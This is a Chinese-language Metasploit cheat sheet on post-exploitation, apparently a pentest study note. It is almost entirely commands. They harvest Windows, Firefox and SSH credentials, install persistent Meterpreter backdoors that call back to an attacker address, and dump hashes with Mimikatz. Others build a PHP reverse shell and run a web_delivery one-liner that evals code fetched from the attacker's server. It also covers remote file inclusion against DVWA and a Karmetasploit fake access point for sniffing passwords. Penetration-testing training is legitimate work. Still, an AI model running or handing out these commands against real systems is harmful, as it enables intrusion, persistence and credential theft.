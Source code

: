 
# 后渗透测试阶段（三）

* POST 模块
* 自动执行模块
* 后门
* Mimikatz
* Web
* RFI 远程文件包含
* Karmetasploit

## POST 模块
``` 
run post/windows/gather/arp_scanner RHOSTS=2.1.1.0/24
run post/windows/gather/checkvm
run post/windows/gather/credentials/credential_collector
run post/windows/gather/enum_applications
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_snmp
run post/multi/recon/local_exploit_suggester
run post/windows/manage/delete_user USERNAME=yuanfh
run post/multi/gather/env
run post/multi/gather/firefox_creds
run post/multi/gather/ssh_creds
run post/multi/gather/check_malware REMOTEFILE=c:\\a.exe
```


## 自动执行模块
* 自动执行meterpreter脚本
``` 
set AutoRunScript hostsedit -e 1.1.1.1,www.baidu.com
set InitialAutoRunScript checkvm
```

* 自动执行post 模块
``` 
set InitialAutoRunScript migrate -n explorer.exe
set AutoRunScript post/windows/gather/dumplinks
```


## 后门
* 持久后门
> 利用漏洞取得的meterpreter shell 运行于内存中，重启失效  
> 重复 exploit 漏洞可能造成服务崩溃  
> 持久后门保证漏洞修复后仍可远程控制


* Meterpreter 后门
``` 
run metsvc -A 　　　　　　# 删除 -r
use exploit/multi/handler
set PAYLOAD windows/metsvc_bind_tcp
set LPORT 31337
set RHOST 1.1.1.1

```

* 持久后门
``` 
run persistence -h
run persistence -X -i 10 -p 4444 -r 1.1.1.1
run persistence -U -i 20 -p 4444 -r 1.1.1.1
run persistence -S -i 20 -p 4444 -r 1.1.1.1
```

## Mimikatz
``` 
getsystem
load mimikatz
wdigest 、kerberos 、msv、ssp 、tspkg 、livessp
mimikatz_command -h
mimikatz_command -f a::
mimikatz_command -f samdump::hashes
mimikatz_command -f handle::list
mimikatz_command -f service::list
mimikatz_command -f crypto::listProviders
mimikatz_command -f winmine::infos
```


## Web
* PHP shell
``` 
msfvenom -p php/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=3333 -f  raw -o a.php
// MSF 启动侦听
// 上传到 web 站点并通过浏览器访问
```

* Web Delivery
``` 
// 利用代码执行漏洞访问攻击者服务器
use exploit/multi/script/web_delivery
set target 1
php -d allow_url_fopen=true -r “eval(file_get_contents(‘http://1.1.1.1/fTYWqmu'));"
```

## RFI 远程文件包含
``` 
vi /etc/php5/cgi/php.ini　　　　　　 //   php info 配置文件
    allow_url_fopen = On
    allow_url_include = On
use exploit/unix/webapp/php_include
set RHOST 1.1.1.2
set PATH /dvwa/vulnerabilities/fi/
set PHPURI /?page=XXpathXX
set HEADERS "Cookie:security=low;PHPSESSID=eefcf023ba61219d4745ad7487fe81d7"
set payload php/meterpreter/reverse_tcp
set lhost 1.1.1.1
exploit
```

## Karmetasploit

* 描述
> 伪造AP、嗅探密码、截获数据、浏览器攻击  
> wget https://www.offensive-security.com/wp-content/uploads/2015/04/karma.rc_.txt

* 安装其他依赖包
``` 
 gem install activerecord sqlite3-ruby
```

* 基础架构安装配置
``` 
apt-get install isc-dhcp-server
cat /etc/dhcp/dhcpd.conf
　　option domain-name-servers 10.0.0.1;
　　default-lease-time 60;
　　max-lease-time 72;
　　ddns-update-style none;
　　authoritative;
　　log-facility local7;
　　subnet 10.0.0.0 netmask 255.255.255.0 {
　　　　range 10.0.0.100 10.0.0.254;
　　　　option routers 10.0.0.1;
　　　　option domain-name-servers 10.0.0.1;
　　}
```
* 伪造AP
``` 
airmon-ng start wlan0
airbase-ng -P -C 30 -e "FREE" -v wlan0mon
ifconfig at0 up 10.0.0.1 netmask 255.255.255.0
touch /var/lib/dhcp/dhcpd.leases
dhcpd -cf /etc/dhcp/dhcpd.conf at0
```

* 启动 Karmetasploit
``` 
msfconsole -q -r karma.rc_.txt
```

* 允许用户正常上网
``` 
vi karma.rc_.txt
// 删除 setg 参数
// 增加 browser_autopwn2 等其他模块
// 检查恶意流量：auxiliary/vsploit/malware/dns*
```

*  启动 Karmetasploit
``` 
msfconsole -q -r karma.rc_.txt
```

* 添加路由和防火墙规则（iptables）
``` 
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -P FORWARD ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```





